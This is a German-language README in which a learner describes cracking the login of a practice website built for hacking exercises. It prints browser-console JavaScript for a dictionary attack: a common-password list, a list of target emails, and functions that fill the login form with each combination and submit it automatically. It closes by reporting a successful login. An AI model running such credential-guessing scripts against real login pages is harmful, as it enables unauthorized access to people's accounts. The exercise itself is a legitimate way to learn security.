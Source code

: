 ### Login Hacken mit JavaScript
---
#### Ablauf
- Mit diesem Video habe ich meine Hacker Kompentenzen aufgebaut. [Video](https://www.youtube.com/watch?v=PvUArQNe3LA)
  <br>

- Ich probiere ein Passwort zu hacken, auf einer Website, die für das lernen von hacken gemacht wurde. [Website](https://junusergin.github.io/hackme-part2/login.html)
  <br>

- Die benötigten Ressourcen, um zu hacken, finde ich auf diesem Repository. [Github](https://github.com/JunusErgin/hackme-part2)

<br>


 ---

#### Mein Vorgehen
 - Ich schaute das Video an und probierte selbst aus. Währenddessen habe ich einige Notizen gemacht. Mir wurde beigebracht wie ein **Hacker denkt** und was es für Möglichkeiten gibt, ein Passwort zu hacken und wie z.B die schnelle und die langsamere (aufwendigere) Art funktioniert.

- Die schnelle Variante ist es, sich eine Liste mit häuffig verwendeten Passwörter zu kopieren und mit einer Funktion schnell alle zuprobieren 
  <br>

  **Funktion:**

~~~ javascript
let index = 1;
function tryCombinations(combinations) {
    console.log('Trying Password', combinations[index]);
    password.type = 'text';
    password.value = combinations[index];
    loginButton.click();
    index++;
    if (index < combinations.length) {
        setTimeout(tryCombinations, 500, combinations);
    }
}

~~~

**Passwortliste:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**Der Befehl um die Funktion zu starten:**

~~~ javascript
tryCombinations(dictionary)
~~~

<br>

  - Die langsame Art ist es, mit einem Script jede einezelne Kombination von Buchstaben, Zahlen und Sonderzeichen auzuprobieren. 

Man nennt diese Vorangehensweise: 

**Brute Force**.

![Bruteforce](images/bruteforce.jpg)

<br>

## Versuch

Mit einem Rechtsklick auf Untersuchen und dann auf Console, kann ich die Scripts einfügen und prbieren.

Jetzt gibt es ein Login, die eine E-Mail benötigt. Um an die E-Mail ran zu kommen, mache ich es gleich, wie bei den Passwörtern. Ich gehe auf [Github](https://github.com/JunusErgin/hackme-part2)und suche eine Liste, mit oft verwendeten E-Mails.


**Passwörter:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**E-Mails**

~~~Javascript
let emails = [
    'albert.einstein@hacker-email.com',
    'grace.hopper@hacker-email.com',
    'marie.curie@hacker-email.com',
    'konrad.zuse@hacker-email.com',
    'stephanie-kwolek@hacker-email.com',
    'carl-friedrich.gauss@hacker-email.com',
    'shirley-ann.jackson@hacker-email.com',
    'gertrude-belle.elion@hacker-email.com',
    'steve.wozniak@hacker-email.com',
    'rudolf.bayer@hacker-email.com',
    'ada.lovelace@hacker-email.com'
];
~~~

**Funktion**

~~~Javascript
function emailDictionaryAttack(i, j) { // i = 0; j = 0
    console.log('Testing', emails[i], dictionary[j]);
    password.type = 'text';
    username.value = emails[i];
    password.value = dictionary[j];
    loginButton.click();
    j++;
    if (j >= dictionary.length) {
        i++;
        j = 0;
    }
    if (i < emails.length || j < dictionary.length) {
        setTimeout(emailDictionaryAttack, 20, i, j);
    }
}
~~~

**Der Befehl um die Funktion zu starten**

~~~Javascript
emailDictionaryAttack(0, 0)
~~~

Ich konnte mich schlussendlich **erfolgreich** einloggen.



